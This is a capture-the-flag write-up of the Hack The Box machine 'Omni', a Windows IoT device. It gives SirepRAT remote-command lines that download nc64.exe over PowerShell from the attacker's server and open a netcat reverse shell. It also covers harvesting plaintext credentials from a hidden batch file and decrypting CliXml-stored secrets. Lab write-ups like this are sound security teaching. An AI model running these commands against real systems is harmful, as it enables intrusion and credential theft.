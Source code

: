 ## HTB Omni Writeup

This was a pretty interesting box and had a new OS that I’ve never messed with.

As always we start with an Nmap scan and adding the box to our hosts file.
![portscan](Pictures/omniScan.png)

So we see that it looks like a Windows server but we never get a proper OS fingerprint for it. After some Googling, it turns out to be a Windows IoT device which is why you see the upnp service. ARCserve also might give you a hint as it looks to be an IoT related storage solution.  

If you try to browse to the 8080 port, it’ll respond back with a login prompt but it’ll also mention that it’s a Windows Device Portal. If you look around for exploits regarding this, you’ll find a Python script called SirepRAT. This allows us to perform RCE but not interactively. We can run any command we want but it never gives us an interactive shell.  

However, after messing around with it for a bit, you’ll see that Powershell is installed and able to be called from this script. That means we’re able to upload and execute a payload or a tool. Something like NetCat perhaps?  

It’s important to mention that the proper version of nc.exe is needed for this to work. I used nc64.exe acquired from here: [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe)  

After we have that executable, we can start a Python HTTP Server to serve the payload.

```
krkn@htb:~$ sudo python -m SimpleHTTPServer 80
```

Then we can utilize the SirepRAT.py script to RCE and download that exe.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell.exe Invoke-WebRequest http://10.10.14.234/nc64.exe -outfile C:\\Windows\\Temp\\nc64.exe" --v
```

This command will tell the remote server to run cmd.exe to then call Powershell to grab the payload we’re serving in our Python HTTP server and save it in the Temp directory.

You’ll see a log in your Python terminal to confirm it was downloaded.

Then we can start a netcat listener.

```
krkn@htb:~$ nc -lvp 4444
```

Finally we can use the SirepRAT.py script again to complete the netcat connection and give us our reverse shell.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\\Windows\\Temp\\nc64.exe 10.10.14.234 4444 -e cmd.exe" --v
```

At that point, you’ll get that lovely Windows command prompt.  

From here you can look around all you want. However, an important file to note is located in C:\Program Files\WindowsPowerShell\Modules\PackageManagement. This file is hidden so use dir /ah to see it. You’ll see an r.bat file and in here you’ll find the passwords for user administrator and user app.

![shell](Pictures/omniShell.png)  

Remember that login prompt from port 8080? Yeah you can use those creds there. It’ll take you to this.

![login](Pictures/omniLogin.png)  

From here, you’ll see that under Processes menu, you have the ability to execute commands. You can use that same nc64.exe we dropped earlier to get higher privileges under these user contexts.

But unfortunately, we can’t get user or root because the flags are in some strange XML format.

![xml](Pictures/omniXML.png)  

After some more Googling, we can decrypt these using Powershell.

After opening a powershell prompt, we can use the following command on both root.txt and user.txt under their prospective user level.

```
$credroot = Import-CliXml -Path C:\\Data\\Users\\administrator\\root.txt


$credroot.GetNetworkCredential().Password
```

This will decrypt the password for us and give us the flags we need.

![finalFlag](Pictures/omniFlag.png)
